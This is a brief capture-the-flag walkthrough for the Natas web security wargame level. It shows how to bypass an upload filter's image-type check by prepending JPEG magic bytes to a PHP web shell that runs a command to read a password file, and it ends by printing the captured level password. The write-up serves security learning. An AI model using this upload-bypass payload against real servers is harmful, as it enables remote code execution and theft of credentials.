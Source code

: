 # natas14

View the source page and we can find that this challenge is an upgraded version of Natas 12. In this challenge, the EXIF image type is checked, so we need to add a header to our php file and make it look like a JPEG file.

We can create a php file like this:

\0xFF\0xD8\0xFF\0xE0<?php echo exec('cat /etc/natas_webpass/natas14');?>

Note: The JPEG header above contains four characters in HEX format.

Upload this php using the similar way in Natas 12 and get the password.

Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1